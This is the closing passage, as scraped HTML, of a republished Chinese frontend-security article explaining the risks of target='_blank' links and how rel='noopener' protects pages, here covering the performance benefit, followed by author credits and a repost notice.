data-toggle="tooltip" data-placement="top" title="" data-original-title="&#x653E;&#x8FDB;&#x7B14;&#x8BB0;"></span></div></div><pre class="xml hljs"><code class="html" style="word-break:break-word;white-space:initial"><span class="hljs-tag">&lt;<span class="hljs-name">a</span> <span class="hljs-attr">href</span>=<span class="hljs-string">&quot;https://an.evil.site&quot;</span> <span class="hljs-attr">target</span>=<span class="hljs-string">&quot;_blank&quot;</span> <span class="hljs-attr">rel</span>=<span class="hljs-string">&quot;noopener noreferrer nofollow&quot;</span>&gt;</span>&#x8FDB;&#x5165;&#x4E00;&#x4E2A;&#x201C;&#x90AA;&#x6076;&#x201D;&#x7684;&#x7F51;&#x7AD9;<span class="hljs-tag">&lt;/<span class="hljs-name">a</span>&gt;</span></code></pre><h1 id="articleHeader10">&#x6027;&#x80FD;</h1><p>&#x6700;&#x540E;&#xFF0C;&#x518D;&#x6765;&#x8BF4;&#x8BF4;&#x6027;&#x80FD;&#x95EE;&#x9898;&#x3002;</p><p>&#x5982;&#x679C;&#x7F51;&#x7AD9;&#x4F7F;&#x7528;&#x4E86; <code>&lt;a target=&quot;_blank&quot;&gt;</code>&#xFF0C;&#x90A3;&#x4E48;&#x65B0;&#x6253;&#x5F00;&#x7684;&#x6807;&#x7B7E;&#x9875;&#x7684;&#x6027;&#x80FD;&#x5C06;&#x4F1A;&#x5F71;&#x54CD;&#x5230;&#x5F53;&#x524D;&#x9875;&#x9762;&#x3002;&#x6B64;&#x65F6;&#x5982;&#x679C;&#x65B0;&#x6253;&#x5F00;&#x7684;&#x9875;&#x9762;&#x4E2D;&#x6267;&#x884C;&#x4E86;&#x4E00;&#x4E2A;&#x975E;&#x5E38;&#x5E9E;&#x5927;&#x7684; JavaScript &#x811A;&#x672C;&#xFF0C;&#x90A3;&#x4E48;&#x539F;&#x59CB;&#x6807;&#x7B7E;&#x9875;&#x4E5F;&#x4F1A;&#x53D7;&#x5230;&#x5F71;&#x54CD;&#xFF0C;&#x4F1A;&#x51FA;&#x73B0;&#x5361;&#x987F;&#x7684;&#x73B0;&#x8C61;&#xFF08;&#x5F53;&#x7136;&#x4E0D;&#x81F3;&#x4E8E;&#x5361;&#x6B7B;&#xFF09;&#x3002;</p><p>&#x800C;&#x5982;&#x679C;&#x5728;&#x94FE;&#x63A5;&#x4E2D;&#x52A0;&#x5165;&#x4E86; <code>noopener</code>&#xFF0C;&#x5219;&#x6B64;&#x65F6;&#x4E24;&#x4E2A;&#x6807;&#x7B7E;&#x9875;&#x5C06;&#x4F1A;&#x4E92;&#x4E0D;&#x5E72;&#x6270;&#xFF0C;&#x4F7F;&#x5F97;&#x539F;&#x9875;&#x9762;&#x7684;&#x6027;&#x80FD;&#x4E0D;&#x4F1A;&#x53D7;&#x5230;&#x65B0;&#x9875;&#x9762;&#x7684;&#x5F71;&#x54CD;&#x3002;</p><hr><blockquote>&#x6587; / jinliming2<br>&#x4E00;&#x6761;&#x5BF9;&#x65B0;&#x9C9C;&#x4E8B;&#x7269;&#x5145;&#x6EE1;&#x4E86;&#x597D;&#x5947;&#x5FC3;&#x7684;&#x54B8;&#x9C7C;<p>&#x7F16; / &#x8367;&#x58F0;</p></blockquote><p>&#x672C;&#x6587;&#x5DF2;&#x7531;&#x4F5C;&#x8005;&#x6388;&#x6743;&#x53D1;&#x5E03;&#xFF0C;&#x7248;&#x6743;&#x5C5E;&#x4E8E;&#x521B;&#x5B87;&#x524D;&#x7AEF;&#x3002;&#x6B22;&#x8FCE;&#x6CE8;&#x660E;&#x51FA;&#x5904;&#x8F6C;&#x8F7D;&#x672C;&#x6587;&#x3002;&#x672C;&#x6587;&#x94FE;&#x63A5;&#xFF1A;<a href="https://knownsec-fed.com/2018-03-01-wei-xian-de-targetblank-yu-opener/" rel="nofollow noreferrer" target="_blank">https://knownsec-fed.com/2018...</a></p><p>&#x60F3;&#x8981;&#x8BA2;&#x9605;&#x66F4;&#x591A;&#x6765;&#x81EA;&#x77E5;&#x9053;&#x521B;&#x5B87;&#x5F00;&#x53D1;&#x4E00;&#x7EBF;&#x7684;&#x5206;&#x4EAB;&#xFF0C;&#x8BF7;&#x641C;&#x7D22;&#x5173;&#x6CE8;&#x6211;&#x4EEC;&#x7684;&#x5FAE;&#x4FE1;&#x516C;&#x4F17;&#x53F7;&#xFF1A;&#x521B;&#x5B87;&#x524D;&#x7AEF;&#xFF08;KnownsecFED&#xFF09;&#x3002;&#x6B22;&#x8FCE;&#x7559;&#x8A00;&#x8BA8;&#x8BBA;&#xFF0C;&#x6211;&#x4EEC;&#x4F1A;&#x5C3D;&#x53EF;&#x80FD;&#x56DE;&#x590D;&#x3002;</p><p><span class="img-wrap"><img data-src="/img/bVbgVle?w=296&amp;h=295" src="https://static.alili.tech/img/bVbgVle?w=296&amp;h=295" alt="" title="" style="cursor:pointer"></span></p><p>&#x6B22;&#x8FCE;&#x70B9;&#x8D5E;&#x3001;&#x6536;&#x85CF;&#x3001;&#x7559;&#x8A00;&#x8BC4;&#x8BBA;&#x3001;&#x8F6C;&#x53D1;&#x5206;&#x4EAB;&#x548C;&#x6253;&#x8D4F;&#x652F;&#x6301;&#x6211;&#x4EEC;&#x3002;&#x6253;&#x8D4F;&#x5C06;&#x88AB;&#x5B8C;&#x5168;&#x8F6C;&#x4EA4;&#x7ED9;&#x6587;&#x7AE0;&#x4F5C;&#x8005;&#x3002;</p><p>&#x611F;&#x8C22;&#x60A8;&#x7684;&#x9605;&#x8BFB;&#x3002;</p>
{{% /raw %}}

# 版权声明
本文资源来源互联网，仅供学习研究使用，版权归该资源的合法拥有者所有，
本文仅用于学习、研究和交流目的。转载请注明出处、完整链接以及原作者。
原作者若认为本站侵犯了您的版权，请联系我们，我们会立即删除！

## 原文标题
你不曾察觉的隐患：危险的 target="_blank" 与 “opener”

## 原文链接
[https://segmentfault.com/a/1190000016421263](https://segmentfault.com/a/1190000016421263)


